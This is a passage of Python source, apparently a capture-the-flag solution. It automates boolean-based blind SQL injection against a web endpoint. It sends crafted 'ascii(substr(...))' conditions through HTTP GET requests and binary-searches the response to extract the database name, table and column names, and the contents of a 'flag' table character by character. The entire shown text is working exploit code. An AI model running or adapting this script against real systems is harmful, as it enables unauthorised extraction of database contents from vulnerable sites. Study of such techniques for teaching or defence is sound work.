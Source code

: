 ```python
            pass

            # another test for narrow down left or right range to search
            payload = f"1 and ascii(substr(({sql_payload}),{j},{j}))>{mid}"
            r = requests.get(base_url + payload)
            if mark in r.text:
                low = mid + 1
            else:
                high = mid - 1
            pass
        j += 1
    return column_name


def probe_flag(table_name, column_name):
    flag = ''
    # payload: select flag from flag
    sql_payload = f"select {column_name} from {table_name}"

    # all visible character is: 32( )->126(~)
    j = 1
    exit_flag = False
    while not exit_flag:
        # always assume we will exit in this loop
        exit_flag = True
        low = 32
        high = 126
        while high >= low:
            mid = (low + high) // 2
            payload = f"1 and ascii(substr(({sql_payload}),{j},{j}))={mid}"
            r = requests.get(base_url + payload)
            if mark in r.text:
                flag += chr(mid)
                print('flag:', flag)
                exit_flag = False
                break
            pass

            # another test for narrow down left or right range to search
            payload = f"1 and ascii(substr(({sql_payload}),{j},{j}))>{mid}"
            r = requests.get(base_url + payload)
            if mark in r.text:
                low = mid + 1
            else:
                high = mid - 1
            pass
        j += 1
    return flag


if __name__ == '__main__':
    print("probe db_name:")
    measure_time(lambda: probe_database_binary())

    print("\nprobe table_name:")
    measure_time(lambda: probe_table_binary(db_name="sqli"))

    print("\nprobe column_name:")
    measure_time(lambda: probe_column_binary(table_name="flag"))

    print("\nprobe flag:")
    measure_time(lambda: probe_flag(table_name="flag", column_name="flag"))

```
